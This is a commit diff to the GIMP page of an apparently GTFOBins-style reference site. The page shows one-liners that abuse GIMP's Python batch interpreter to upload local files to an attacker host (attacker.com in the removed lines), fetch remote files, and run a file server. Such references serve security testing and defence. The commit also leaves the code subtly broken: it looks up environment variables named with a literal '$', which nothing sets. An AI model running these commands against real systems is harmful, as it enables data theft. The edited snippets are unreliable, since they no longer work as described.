

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/gimp.md, in a window 1280 px wide, cut to the strip 339-1252 px from the top of the page. Shown: the top 906 px of the strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1184 px from its top, so only the background shows below that.

Commit message:
Update gimp.md

```diff
--- a/_gtfoud/gimp.md
+++ b/_gtfoud/gimp.md
@@ -4,27 +4,22 @@
   file-upload:
     - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
         gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
-        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
+        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))'
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
-        r.urlretrieve(e["URL"], e["LFILE"])'
+        r.urlretrieve(e["$URL"], e["$LFILE"])'
   server:
     - description: Serve files in the local folder running an HTTP server.
       code: |
-        export LPORT=8888
         gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
         if sys.version_info.major == 3: import http.server as s, socketserver as ss
         else: import SimpleHTTPServer as s, SocketServer as ss
-        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
+        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
 ---
```
